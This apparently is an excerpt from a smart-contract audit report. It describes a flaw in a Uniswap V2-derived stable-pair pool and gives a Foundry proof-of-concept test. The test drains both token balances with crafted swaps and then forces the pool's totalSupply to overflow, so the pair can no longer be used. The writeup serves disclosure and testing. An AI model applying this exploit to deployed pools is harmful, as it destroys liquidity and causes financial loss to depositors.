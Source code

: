 Although the mint function is taken from Uniswap V2, which has sqrt(a * b) > MINIMUM_LIQUIDITY check, this does not protect the invariant formula for stable pair pools.

## Proof of Concept

Add the following to test/Pair.t.sol and run forge test --mt testDestroyPair -vv
```javascript
    function drainPair(Pair pair, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.transfer(address(pair), 1);
        uint amount0;
        uint amount1;

        if (address(DAI) < address(FRAX)) {
        amount0 = 0;
        amount1 = initialFraxAmount - 1;
        } else {
        amount1 = 0;
        amount0 = initialFraxAmount - 1;
        }

        pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(pair), 1);

        if (address(DAI) < address(FRAX)) {
        amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
        amount1 = 0;
        } else {
        amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
        amount0 = 0;
        }

        pair.swap(amount0, amount1, address(this), new bytes(0));
    }
    function testDestroyPair() public {
        votingEscrowMerge();
        deployOwners();
        deployCoins();
        deal(address(DAI), address(this), 100 ether);
        deal(address(FRAX), address(this), 100 ether);
        
        vm.startPrank(owners[0], owners[0]);
        deployPairFactoryAndRouter();
        deployVoter();
        Pair pair = Pair(factory.createPair(address(DAI), address(FRAX), true));
        vm.stopPrank();

        for(uint i = 0; i < 10; i++) {
            DAI.transfer(address(pair), 10_000_000);
            FRAX.transfer(address(pair), 10_000_000);
            // as long as 10_000_000^2 < 1e18
            uint liquidity = pair.mint(address(this));
            console.log("pair:", address(pair), "liquidity:", liquidity);
            console.log("total liq:", pair.balanceOf(address(this)));
            drainPair(pair, FRAX.balanceOf(address(pair)) , DAI.balanceOf(address(pair)));
            console.log("DAI balance:", DAI.balanceOf(address(pair)));
            console.log("FRAX balance:", FRAX.balanceOf(address(pair)));
            require(DAI.balanceOf(address(pair)) == 1, "should drain DAI balance");
            require(FRAX.balanceOf(address(pair)) == 2, "should drain FRAX balance");
        }

        DAI.transfer(address(pair), 1 ether);
        FRAX.transfer(address(pair), 1 ether);
        vm.expectRevert();
        pair.mint(address(this)); // will revert due to overflow of totalSupply
```